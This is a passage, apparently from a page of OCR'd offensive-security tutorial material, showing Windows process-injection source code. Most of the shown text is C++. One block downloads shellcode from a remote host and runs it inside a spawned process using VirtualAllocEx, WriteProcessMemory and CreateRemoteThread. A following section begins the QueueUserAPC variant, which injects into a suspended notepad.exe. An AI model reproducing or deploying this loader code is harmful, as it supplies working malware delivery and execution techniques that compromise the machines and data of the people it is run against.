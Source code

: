 ```
    FALSE,
    CREATE_NO_WINDOW,
    NULL,
    NULL,
    startup_info,
    process_info);

// download shellcode
std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

// allocate memory
LPVOID ptr = VirtualAllocEx(
    process_info->hProcess,
    NULL,
    shellcode.size(),
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE);

// copy shellcode
SIZE_T bytesWritten = 0;
WriteProcessMemory(
    process_info->hProcess,
    ptr,
    &shellcode[0],
    shellcode.size(),
    &bytesWritten);

// create remote thread
DWORD threadId = 0;
HANDLE hThread = CreateRemoteThread(
    process_info->hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)ptr,
    NULL,
    0,
    &threadId);

// close handles
CloseHandle(hThread);
CloseHandle(process_info->hThread);
CloseHandle(process_info->hProcess);
```

## QueueUserAPC

The QueueUserAPC API provides a convenient means of executing shellcode on the main thread of a spawned process. This time, we'll spawn notepad.exe  in a suspended state, inject the shellcode and then queue a call to the shellcode on its primary thread.

```
//create startup info struct
LPSTARTUPINFOW startup_info = new STARTUPINFOW();
startup_info->cb = sizeof(STARTUPINFOW);
startup_info->dwFlags = STARTF_USESHOWWINDOW;

//create process info struct
PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

//null terminated command line
wchar_t cmd[] = L"notepad.exe\0"

//create process
```